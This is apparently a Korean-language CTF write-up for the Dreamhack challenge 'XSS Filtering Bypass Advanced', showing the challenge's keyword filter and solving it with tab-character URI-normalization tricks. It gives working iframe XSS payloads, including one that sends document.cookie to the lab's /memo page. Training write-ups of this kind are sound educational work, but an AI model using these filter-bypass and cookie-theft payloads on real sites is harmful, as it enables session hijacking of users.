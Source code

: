 ```yaml
---
title: Dreamhack - XSS Filtering Bypass Advanced
date: 2022-04-13 22:30 +0900
categories: [Dreamhack, Webhacking]
tags: [dreamhack xss filtering bypass, xss, xss filtering bypass,URI normalization]
---
```


## XSS Filtering Bypass Advanced
<hr style="border-top: 1px solid;"><br>

```python
def xss_filter(text):
    _filter = ["script", "on", "javascript"]
    for f in _filter:
        if f in text.lower():
            return "filtered!!!"

    advanced_filter = ["window", "self", "this", "document", "location", "(", ")", "&#"]
    for f in advanced_filter:
        if f in text.lower():
            return "filtered!!!"

    return text
```

<br><br>
<hr style="border: 2px solid;">
<br><br>

## Solution
<hr style="border-top: 1px solid;"><br>

필터링 단어들을 공백으로 치환하지 않고 filtered란 단어를 출력하게 하였다.

<a href="https://dreamhack.io/lecture/courses/318" target="_blank">Exploit Tech: XSS Filtering Bypass - I</a>에서 보면 URI 정규화 관련 내용이 나온다.

정규화 과정을 이용해서 접근해보았다. ```%09(\t), %0a(\n)```을 이용하면 된다.
: ```<iframe src="javascri%09pt:alert`1`">``` --> alert(1) 실행된다.

<br>

위의 과정까지 도달하는데 굉장히 오래 걸렸다... ㅠ

테스트 쿠키를 만든 뒤 ```/vuln``` 페이지에서 아래의 페이로드를 보내면 쿠키 값이 메모장에 출력된다.
: ```<iframe src="javascri%09pt:locatio%09n.href='/memo?memo='%2bdocumen%09t.cookie">```

flag 페이지에서 입력할 때 아래 payload 그대로 넣어야 동작한다. **(```/vuln``` 페이지에 페이로드를 넣고 소스페이지에서 확인)**

<br>

![payload](https://user-images.githubusercontent.com/52172169/166133877-6fe1b3c9-8b61-49ae-b744-e1a279adbbdf.png)

<br>

최종 payload
: ```<iframe src="javascrip	t:locatio	n.href='/memo?memo=' documen	t.cookie">```

<br>

다른 풀이로는 ```data:[<mediatype>][;base64],<data>```를 이용해서 풀 수도 있다.
: <a href="https://developer.mozilla.org/ko/docs/Web/HTTP/Basics_of_HTTP/Data_URIs" target="_blank">developer.mozilla.org/ko/docs/Web/HTTP/Basics_of_HTTP/Data_URIs</a>

```<svg>``` 태그와 ``<use>``` 태그를 이용해서 ```<use>```의 ```href``` 속성에서 data URI를 이용해 푼 풀이가 있었다.

또한 자바스크립트의 ```fetch``` 함수를 이용해서 원격 API를 호출해서 풀 수도 있다.

<br>

+ Flag : ```flag=DH{[redacted]}```

<br><br>
<hr style="border: 2px solid;">
<br><br>
